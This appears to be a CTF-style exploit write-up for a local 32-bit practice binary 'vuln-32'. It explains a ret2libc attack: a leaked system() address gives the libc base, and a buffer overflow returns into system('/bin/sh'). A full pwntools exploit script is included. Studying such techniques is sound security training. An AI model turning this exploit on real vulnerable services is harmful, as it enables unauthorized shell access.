

## 📘 Exploit Write-up: `vuln-32` – system() Leak to Shell

---

### 🔍 Binary Info

* **Target:** `vuln-32`
* **Arch:** 32-bit (`x86`)
* **NX:** Enabled
* **ASLR:** Enabled
* **Stack Canary:** Disabled
* **PIE:** Disabled
* **Libc:** Dynamically linked
* **Vulnerability:** Buffer Overflow

---

### Goal

Exploit a buffer overflow and use a **leak of `system()`** from the GOT or a debug print, then compute the base address of libc to **call `system("/bin/sh")`**.

---

### 🔓 Vulnerability

The program leaks the address of `system()` during execution:

```c
printf("system() is at: %p\n", system);
```

This gives us a **runtime leak** of a libc function, which we use to calculate the **base address of libc**.

---

### ⚙️ Exploit Strategy

1. Start the process and read the `system()` leak.
2. Subtract offset of `system` from the leak to get the **libc base address**.
3. Use this base to find:

   * Address of `system`
   * Address of `"/bin/sh"` string inside libc
4. Build the payload:

   * Overflow the buffer
   * Return to `system()`
   * Dummy return address (could be anything or `0x0`)
   * Argument to `system()`: address of `"/bin/sh"`
5. Send the payload and get a shell.

---

### 🧪 Exploit Code

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

# Step 1: Leak system() address
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)
log.info(f'Leaked system() address: {hex(system_leak)}')

# Step 2: Calculate libc base
libc.address = system_leak - libc.sym['system']
log.success(f'Libc base address: {hex(libc.address)}')

# Step 3: Calculate addresses
system_addr = libc.sym['system']
binsh = next(libc.search(b'/bin/sh'))

# Step 4: Craft payload
payload = flat(
    b'A' * 32,         # Buffer overflow up to return address
    system_addr,       # Overwrite return address with system()
    0x0,               # Fake return address
    binsh              # Argument to system()
)

# Step 5: Send payload
p.sendline(payload)
p.interactive()
```

---

### 🧾 Output Example



---

### ✅ Exploit Success

We gain a shell by successfully calling:

```c
system("/bin/sh");
```

---

### 📌 Notes

* The exact **offset (32 bytes)** before return address was determined using a pattern (`cyclic`) or manual fuzzing.
* This only works if the binary:

  * **Leaks a libc function** (like system)
  * Doesn't have **stack canaries**
  * Has a fixed **return address location** (no PIE)
* If PIE is enabled, you'd need to leak a function inside the ELF too.

